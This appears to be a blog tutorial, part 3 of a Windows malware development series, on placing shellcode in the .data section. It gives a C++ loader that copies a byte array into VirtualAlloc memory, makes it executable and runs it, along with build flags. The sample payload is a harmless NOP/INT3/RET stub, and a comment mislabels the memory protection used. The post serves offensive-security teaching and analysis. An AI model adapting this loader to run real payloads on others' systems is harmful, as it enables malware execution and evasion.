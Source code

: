 ```yaml
---
title: "Windows Malware Development Part 3: Payload Placement Basics - .data"
header:
  teaser: /assets/images/pe.png
  teaser_home_page: true
categories:
  - Malware Dev
classes: wide
tags:
  - Malware
toc: true
toc_label: Contents
---
```

## Objective ##

Hey guys, welcome to the third part of Windows Malware Development, in which we will be beginning with the basics of payload placement. In this post, we will be looking at how to place our shellcode in the `.data` and `.rdata` sections.

## .data Section ##

Placing our payload in the `.data` section is relatively easy. All we have to do is make sure that our shellcode variable is defined outside of our `main()` function. 

>You will need Visual Studio/Visual studio build tools, x64dbg and ProcessHacker for this exercise.

So, using our code from the previous post, all we have to do is remove the `#pragma` directive and the `declspec` line that tells it where to store the shellcode. Also, we do not define it as a `const`:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

unsigned char Text_RawData[] = {
    0x90,    // NOP
    0x90,    // NOP
    0xcc,    // INT3
    0xc3     // RET
};

int main() {
    printf("[i] Text_RawData function: 0x%p \n", Text_RawData);

	// Allocate executable memory.
    size_t codeSize = sizeof(Text_RawData);
    printf("[1] Press <Enter> To Allocate Memory ...");
	getchar();
	void* executableMemory = VirtualAlloc(NULL, codeSize, MEM_COMMIT |  MEM_RESERVE, PAGE_READWRITE);
	
	if (executableMemory == NULL) {
        printf("VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }
	
	printf("[i] Memory allocated at : 0x%p \n", executableMemory);
	
	// Copy the shellcode from Text_RawData to the executable memory.
    printf("[2] Press <Enter> To Write Shellcode ...");
	getchar();
	memcpy(executableMemory, Text_RawData, codeSize);
    
	// Change the memory protection to PAGE_EXECUTE_READ.
    DWORD oldProtect;
    if (!VirtualProtect(executableMemory, codeSize, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }
	
	// Execute our shellcode
    printf("[#] Press <Enter> To Run ...");
	getchar();
	((void (*)())executableMemory)();
	return 0;
	
	// Free the allocated memory.
    VirtualFree(executableMemory, 0, MEM_RELEASE);

    printf("[#] Press <Enter> To Quit ...");
    getchar();
    return 0;
}
```

## Analyzing in x64dbg ##

In order to get a better understanding of how this works on a machine level, lets have a look at our program in x64dbg.

If you are using VS build tools, you can use the below command:

```
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcfilename.cpp /link /OUT:output.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```

